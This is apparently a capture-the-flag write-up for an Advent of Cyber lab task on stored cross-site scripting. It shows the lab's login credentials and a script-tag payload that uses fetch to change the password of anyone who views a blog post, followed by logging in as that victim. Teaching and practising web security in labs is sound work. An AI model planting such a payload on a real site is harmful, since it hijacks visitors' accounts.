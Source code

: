 # XSS Vulnerability

[If you want to check my notes about XSS](https://github.com/itKhalid143/websec365/blob/main/Days/Day10-XSS.md)

***
## First we're logging using the given Credentials!

```php
Username: McSkidy

Password: password
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/login.PNG)

## Then we're hopping to a blog post to inject our malicious script!
```js
<script>fetch('/settings?new_password=pass123');</script>
``` 
- ```<script> Text in Between </script> ``` Allows use to run Javascripts inside our page.

- ```fetch``` function makes a network request to the specified URL.

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/1.PNG)

Once the target visist the the blog we posted it, the code will automatically make a request using fetch function to given link to change the email address!

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/2.PNG)

## Here we're see how our command is injected in the source code!

## Lately we're logging with the new password we set in our malicious code!

```php
Username: grinch

Password: pass123
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/3.PNG)

## Well done Hackers!
